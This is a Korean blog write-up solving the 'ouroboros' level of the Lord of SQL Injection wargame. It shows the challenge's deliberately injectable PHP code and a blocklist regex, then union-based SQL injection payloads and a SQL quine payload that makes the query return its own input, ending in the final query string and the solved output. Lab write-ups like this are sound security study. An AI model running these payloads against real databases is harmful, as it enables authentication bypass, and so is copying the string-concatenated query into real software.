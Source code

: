 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - ouroboros 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제도 테이블이 비어 있었다.  

근데 `pw`를 추출하래...  

어떻게 하라는지 고민하다가 웹짱해커님께 물어봐서 겨우 풀었다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------
query : select pw from prob_ouroboros where pw=''
----------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

첨에는 문제 보자마자 `오?` 했다.  

그래서 신나게 `?pw=1' or pw like '%'%23`을 입력 해 보았다.  

그런데 아무런 결과도 나오지 않았다.  

보아하니 얘도 테이블을 비워 둔 것 같았다.  

그럼.. 내가 입력 한 값이 곧 결과값이 되어야 하는데, 이걸 도저히 어떻게 해야하는지 감이 안잡혔다.  

`?pw=1' union select '1`을 입력하면, `Pw : 1`이 출력되서 `뭔가 union을 써야 하는구나...`는 알겠는데 어떻게 해야 내가 입력한 값과 출력 값이 같게 만들 수 있는지를 모르겠더라.  

그래서 또 다시 `웹 짱 해커`님한테 물어봤다.  

그랬더니 힌트로 `Quine`라는 것을 알려 주었다.  

[위키백과 - Quine](https://en.wikipedia.org/wiki/Quine_(computing))  

[SQLi Quine](https://www.shysecurity.com/post/20140705-SQLi-Quine)

인터넷 찾아보니 이 두 가지가 제일 도움이 되었다.  

즉, `Quine`은 `자기 자신의 소스코드를 출력하는 것`을 의미한다고 한다.  

이번 문제에 딱 맞는 컨셉이다.  

그래서 위의 링크 중에 위키백과에서 아래와 같은 쿼리문을 가져와 테스트 해 보았다.  

```
SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

그 결과 내가 입력한 내용이 그대로 결과 값으로 나온 것을 확인할 수 있었다.  

```
mysql> SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine; 
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Quine                                                                                                                                                                                                      |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

이 것을 바탕으로 문제를 풀기 위해 `SELECT`를 `a' union SELECT`로 변경했다.  

그랬더니 `'`와 `"`이 내가 입력한 값과 조금씩 달라졌다.  

왜 바뀌는지 도저히 모르겠어서 `REPLACE` 함수를 기준으로 쿼리문을 잘라서 비교 해 보았다.  

쿼리를 살펴 보면 `$`가 있는데, 앞의 두 `$` 자리에 마지막의 `SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine`가 `REPLACE` 되어 들어가게 된다.  

그 과정에서 `"`가 `'`로 바뀌게 되는데, 나는 쿼리의 시작 부분에서 `a' union SELECT`가 필요하므로, 처음에 `a"`로 입력하고 이 후 `REPLACE` 함수를 실행하는 과정에서 `a'`로 바뀌도록 했다.  

어차피 뒤의 `a" union SELECT` 부분은 실제로 쿼리가 실행되는 부분이 아니어서 상관없기 때문이다.  

그 결과 만들어진 쿼리는 아래와 같다.  

```
select pw from user where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

내가 내 서버에서 테스트 한 쿼리인데 너무 복잡해서 알아보기가 힘든 것 같다.  

```
mysql> select pw from user where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| pw                                                                                                                                                                                                                                    |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.01 sec)
```

쿼리를 실행 한 결과, 내가 입력 한 쿼리가 그대로 결과 값으로 나온 것을 확인할 수 있다.  

드디어 이를 바탕으로 아래와 같은 쿼리스트링을 넘겨주었다.  

```
?pw=a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23') AS Quine%23
```

이 복잡한 쿼리를 통해 드디어 문제를 풀 수 있었다.  

```php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select pw from prob_ouroboros where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#') AS Quine#'
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Pw : a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#') AS Quine#
OUROBOROS Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

`OUROBOROS Clear!!`
